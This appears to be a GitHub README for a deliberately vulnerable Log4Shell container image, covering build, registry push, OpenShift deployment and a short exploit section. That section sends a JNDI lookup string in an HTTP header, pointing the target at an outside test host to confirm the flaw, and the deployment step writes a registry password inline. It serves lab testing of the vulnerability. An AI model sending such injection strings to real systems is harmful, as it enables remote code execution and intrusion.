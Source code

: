 # Log4shell vulnerable image

## Build

Compile sources.

```sh
(cd src && ./mvnw package -DskipTests=true)
```

Package the container image.

```sh
buildah build -t vulnerable-log4j:latest .
```

Push the image to the registry of your choice.

```sh
podman tag localhost/vulnerable-log4j:latest registry.itix.xyz/vulnerable/vulnerable-log4j:latest
podman push registry.itix.xyz/vulnerable/vulnerable-log4j:latest
```

## Usage

```sh
podman run -d -p 8080:8080 --rm --name vulnerable-log4j vulnerable-log4j:latest
export TARGET=http://localhost:8080/
```

```
sh-4.1# curl "$TARGET" -H "X-Name: Nicolas"
Hello, Nicolas!
sh-4.1# curl "$TARGET"
Hello, World!
```

## Deployment

```sh
oc apply -f openshift/
oc project vulnerable-log4j
oc create secret docker-registry itix-registry --docker-server=registry.itix.xyz --docker-username=admin --docker-password=s3cr3t --docker-email=nmasse@redhat.com
oc secrets link default itix-registry --for=pull
```

## Exploit

Find the URL of the vulnerable container.

```sh
export TARGET="https://$(oc get route apiserver -n vulnerable-log4j -o jsonpath="{.spec.host}")/"
```

Go to https://log4shell.huntress.com/ and pass the generated string in the `X-Name` HTTP header.

```sh
curl "$TARGET" -H 'X-Name: ${jndi:ldap://log4shell.huntress.com:1389/e597d75d-1851-4133-9a08-d5dfd7e04264}'
```
